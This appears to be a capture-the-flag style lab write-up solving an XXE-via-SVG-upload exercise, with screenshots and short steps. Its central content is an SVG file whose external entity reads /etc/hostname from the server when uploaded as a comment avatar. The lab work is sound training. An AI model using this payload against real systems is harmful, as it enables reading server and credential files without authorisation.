 ![image](https://github.com/udayk01/Web-Security/assets/52235763/ce0187fc-bba5-49bb-8fd7-4bfd5352cab9)

## Solution:
> First upload a random image as avvatar

![image](https://github.com/udayk01/Web-Security/assets/52235763/44c369a0-465a-473b-8e5d-328f16dd4d40)

> Select the requwsts from http history

![image](https://github.com/udayk01/Web-Security/assets/52235763/1948e3cc-ef02-460a-b586-e783882681c8)

> Create a local SVG image with the following content:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/9fbd0092-7ad3-4416-88b0-75792e93ad93)

> Post a comment on a blog post, and upload this image as an avatar.

![image](https://github.com/udayk01/Web-Security/assets/52235763/45f49208-02bd-4528-afe7-abb5215702df)

> When you view your comment, you should see the contents of the /etc/hostname file in your image. Use the "Submit solution" button to submit the value of the server hostname.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8498001d-4115-4f51-86e8-617e54a4bfc0)

> hostname: ```0921fed9fa94```

![image](https://github.com/udayk01/Web-Security/assets/52235763/1b5c8566-225c-4be7-8767-c2daa3d77d45)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/d2b3e1b2-a862-47bd-a773-6e676d1c0765)
